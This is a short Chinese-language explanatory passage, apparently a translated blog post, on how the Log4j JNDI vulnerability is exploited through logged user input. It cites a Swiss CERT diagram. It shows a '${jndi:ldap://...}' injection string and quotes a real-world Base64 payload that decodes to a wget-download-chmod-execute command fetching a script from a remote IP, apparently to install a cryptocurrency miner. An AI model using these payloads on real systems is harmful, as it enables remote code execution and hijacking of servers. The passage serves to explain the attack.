 *这个由 ***瑞士***[***CERT***](https://www.govcert.admin.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)组成的图形视图很好地说明了这个攻击链:*

*![](img/6472c532522fd8865600c4c3bda59c25.png)*

*CERT 发起的 Log4j JNDI 攻击的图形视图*

*对于那些仍然不确定攻击者如何获得对您系统的访问权并向您的日志记录器传输特殊构造的字符串的人，让我提供一个例子。假设你有一个搜索页面，用户可以在输入表单中输入搜索参数，你的应用程序会接受并搜索这些参数——很简单。你将搜索标准记录在你的应用程序中。嗯……这里会出什么问题呢？*

*想象一下，如果有人放入以下内容会怎么样:***$ { JNDI:LDAP://恶意站点/恶意对象}*** 。这段代码会做什么？该代码将向参数中指定的域发送 JNDI 请求。我相信你现在对这个问题有了新的看法。您的 *JVM* 现在包含一个恶意对象。这听起来很疯狂，但它不是无缘无故地被称为零日漏洞，对吗？*

*如果你真的能够在一个主流网站的 JVM 中为你的代码创建一个 Java 对象，你将得到 ***对一切的完全控制。你可以在任何时候运行任何你想运行的代码。这被称为 RCE(远程代码执行)。根据 ***SecureWorks*** 的说法，事实上，这正是大多数攻击者试图通过传递 ***Base64 编码的*** 命令来做下载 ***加密货币矿工*** 之类的事情。例如下面的 *Base64* :****

```
*{jndi:ldap://<redacted_IP>:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9s*
```

**将*解码为:*

```
*wget hXXp://62.210.130[.]250/lh.sh;chmod +x lh.sh;./l*
```
